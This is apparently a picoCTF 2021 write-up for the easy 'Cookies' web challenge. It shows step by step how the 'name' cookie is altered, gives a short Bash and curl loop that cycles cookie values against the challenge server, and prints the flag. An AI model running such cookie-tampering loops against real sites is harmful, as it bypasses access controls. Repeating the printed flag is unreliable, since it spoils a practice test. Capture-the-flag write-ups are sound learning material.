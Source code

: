 # :briefcase: Cookies

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    ![image2](images/image2.png)

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    ![image3](images/image3.png)

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    ![image4](images/image4.png)

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    ![image5](images/image5.png)

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

`None`

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)
- [GNU Grep 3.12](https://www.gnu.org/savannah-checkouts/gnu/grep/manual/grep.html)
- [curl](https://github.com/curl/curl/blob/master/docs/MANUAL.md)

---

# :hammer_and_wrench: Tools used

- `Bash` script
- `grep` - print lines that match patterns 
- `curl` - transfer a URL

